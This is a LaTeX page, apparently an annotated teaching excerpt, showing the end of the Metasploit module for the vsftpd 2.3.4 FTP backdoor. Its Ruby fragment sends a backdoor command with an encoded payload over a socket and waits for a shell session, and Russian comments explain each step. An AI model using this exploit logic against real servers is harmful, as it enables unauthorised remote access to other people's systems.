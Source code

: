 \documentclass[10pt,a4paper,titlepage]{article}
\begin{document}
\begin{verbatim}
    print_status("Sending backdoor command...")
    
    #! кодирование payload и отправка на атакуемую машину
    sock.put("AB;" + payload.encoded + "\n")

    # Wait for the request to be handled
    1.upto(120) do
      break if session_created?
      select(nil, nil, nil, 0.25)
      
      #! Запуск обработчика, который каким-то образом обрабатывает
      #! соединение, возвращенное payload, если оно было установлено
      handler()
    end
    
    #! разрыв соединения
    disconnect
  end
end
\end{verbatim}
\begin{itemize}
	\item exploit/unix/ftp/vsftpd\_234\_backdoor
\end{itemize}
\end{document}
